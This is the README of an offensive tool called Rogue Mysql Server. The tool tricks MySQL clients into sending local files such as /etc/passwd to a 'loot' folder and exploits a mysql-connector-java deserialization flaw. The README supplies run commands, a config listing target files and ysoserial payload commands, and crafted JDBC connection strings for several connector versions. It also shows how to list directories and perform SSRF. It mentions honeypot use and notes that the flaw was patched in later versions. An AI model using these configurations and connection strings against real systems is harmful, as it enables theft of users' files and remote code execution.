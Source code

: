 # Rogue Mysql Server

A rouge mysql server based on https://github.com/vitessio/vitess, supports reading files from most mysql libraries of multiple programming languages.  
No more annoying compatible problems. You can get tested libraries in the following table.

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

If you find this tool helped you, please star 🌟 this repository.

## Feature

* Compatible with common mysql libraries
* Capability for reading binary files
* Automatic save the file
* Optional password verification if you want to use it as honeypot
* Read client's connection attributes, which may contain some useful information
* For mysql-connector-java, have the ability to exploit deserialize vulnerability when the jdbc connection string is controlled by user

## Usage

Generate the template config file, you can skip this step if you already have it.
```sh
./rogue_mysql_server -generate
```

Run rouge mysql server using config.yaml.
```sh
./rogue_mysql_server
```

Or if you want to specify a config file.
```sh
./rogue_mysql_server -config other_config.yaml
```

## Config

Example:
```yaml
host: 0.0.0.0
port: 3306
# Listening ip address and port.

version_string: "10.4.13-MariaDB-log"
# What version string client will get.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# Files that waiting to be read. You need to notice that it doesn't mean you can read all files at once (many mysql libraries don't support this feature).
# The server will actually read one file in the list sequentially while the client sends one query.

always_read: true
# If this option is set to true, the rouge server won't check the client's hint of whether it supports LOAD DATA LOCAL, and always try to read the file.
# Otherwise, the rouge server will respect the client's hint.

from_database_name: false
# If this option is set to true, the rogue server will get the filename from the database name provided by the client instead of `file_list`.
# E.g. `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# The server will try to read `/etc/hosts` instead of the file in `file_list`.

max_file_size: 0
# Max size of the reading file (unit in bytes). Any content in the file that exceeds this size limit will be discarded.
# If the size is less than or equal to zero, meaning no limit on size.

auth: false
users:
  - root: root
  - root: password
# If set auth to `false`, the server won't check the client's auth username and password.
# Otherwise, it must match one of `users`.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# See section `mysql-connector-java deserialize vulnerability exploit`
```

## mysql-connector-java deserialize vulnerability exploit

After version 8.0.20 and 5.1.49, this vulnerability has been fixed.  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

The related configuration of vulnerability exploit is as follows.
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

If `jdbc_exploit` is true, the server will automatically exploit the vulnerability if the client is mysql-connector-java. The `jdbc_exploit` will disable the function of file reading, meaning you can't read the client file and exploit deserialize vulnerability at the same time.
If `always_exploit` is true, the server won't check if the client is mysql-connector-java and always try to exploit deserialize vulnerability.
The `ysoserial_command` is the command that generates deserialize payload.

You can specify the payload that will be used by the parameter `connectionAttributes` in the jdbc connection string.  
The server will get the payload that key name equals the value of `t` in `connectionAttributes`. If not found, it will use first payload in `ysoserial_command` list.

For example:    
Exploit this vulnerability in version 8.x with payload cc7. The connection string is `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

Be aware that the server only exploits `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`, you can refer to the table below:

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

Additionally, the mysql-connector-java support use URL (like file://, http://) as filename, to achieve listing directory or SSRF, but you need set `allowLoadLocalInfile` to true in connection string.  
You can check details in [here](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* Listing `/` directory, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`

## Ref

mysql-connector-java vulnerability exploit:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql protocol related:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
